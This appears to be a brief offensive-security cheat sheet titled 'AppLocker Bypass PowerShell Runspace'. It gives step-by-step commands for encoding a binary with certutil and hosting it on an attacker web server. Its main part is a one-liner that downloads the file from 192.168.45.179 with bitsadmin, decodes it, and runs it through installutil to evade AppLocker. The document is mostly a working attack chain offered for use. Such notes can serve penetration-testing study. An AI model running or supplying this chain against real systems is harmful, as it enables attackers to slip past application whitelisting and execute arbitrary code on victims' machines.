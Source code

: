 # AppLocker Bypass PowerShell Runspace

1. Encode the binary into a (base64) text file with `CertUtil`.

```powershell
certutil -encode C:\Path\To\Binary.exe enc.txt
```

2. Upload and host the encoded binary `enc.txt` on the attackers web server.

3. We then run the following oneliner on the target to download, decode the encoded binary and use the combination of Microsoft-signed binaries to effectively bypass AppLocker.

```powershell
cmd.exe /c del C:\Windows\Tasks\enc.txt && del c:\Windows\Tasks\a.exe && bitsadmin /Transfer theJob http://192.168.45.179/enc.txt C:\Windows\Tasks\enc.txt && certutil -decode C:\Windows\Tasks\enc.txt C:\Windows\Tasks\a.exe && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\a.exe
```
